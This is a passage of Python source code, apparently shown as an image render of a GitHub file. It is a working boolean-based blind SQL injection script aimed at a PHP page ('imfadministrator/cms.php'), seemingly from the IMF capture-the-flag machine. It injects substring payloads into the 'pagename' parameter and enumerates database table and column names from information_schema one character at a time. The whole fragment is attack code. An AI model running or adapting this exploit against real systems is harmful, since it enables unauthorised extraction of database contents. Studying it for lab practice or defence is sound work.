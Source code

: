 ```python
    tablas = ""

    tablas_db = {}

    for i in nueva_lista_db:
        print(i)
        while True:
            url_tables = url + (
                f"pagename=home'or substring((select group_concat(table_name) from information_schema.tables where table_schema='{i}'),{posicion},1)='{chr(char)}"
            )

            response = requests.get(url_tables, cookies=cookies, headers=headers)
            if (
                "Welcome to the IMF Administration." not in response.text
                and "mysqli_fetch_row() expects parameter 1 to be mysqli_result, boolean given in <b>/var/www/html/imfadministrator/cms.php</b> on line"
                not in response.text
                and chr(char).isupper() == False
            ):
                tablas += chr(char)
                char = 44
                posicion += 1
            else:
                char += 1

            if char == 123:
                break
        posicion = 1
        char = 44
        tablas_db[i] = tablas.split(",")
        tablas = ""

    columnas_tablas_db = {}
    columnas = ""

    for i in tablas_db:
        for j in tablas_db[i]:
            while True:
                url_columns = url + (
                    f"pagename=home'or substring((select group_concat(column_name) from information_schema.columns where table_schema='{i}' AND table_name='{j}'),{posicion},1)='{chr(char)}"
                )
                response = requests.get(url_columns, cookies=cookies, headers=headers)
                if (
                    "Welcome to the IMF Administration." not in response.text
                    and "mysqli_fetch_row() expects parameter 1 to be mysqli_result, boolean given in <b>/var/www/html/imfadministrator/cms.php</b> on line"
                    not in response.text
                    and chr(char).isupper() == False
                ):
                    columnas += chr(char)
                    char = 44
                    posicion += 1
                else:
                    char += 1

                if char == 123:
                    break
            posicion = 1
            char = 44
            columnas_tablas_db[i] = {j: columnas.split(",")}

```